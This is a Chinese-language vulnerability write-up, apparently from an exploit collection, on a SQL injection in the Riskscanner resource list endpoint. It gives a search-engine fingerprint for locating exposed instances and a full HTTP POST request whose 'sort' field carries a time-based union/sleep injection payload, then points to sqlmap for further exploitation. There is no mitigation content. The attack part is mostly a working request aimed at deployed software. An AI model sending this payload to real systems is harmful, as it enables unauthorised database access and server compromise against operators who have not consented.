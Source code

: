 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>Riskscanner</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Riskscanner"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/image-20210718204906366.png)



发送漏洞请求包

```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![img](../../../.vuepress/public/img/image-20210718204929186.png)



使用工具Sqlmap

![img](../../../.vuepress/public/img/image-20210718204944301.png)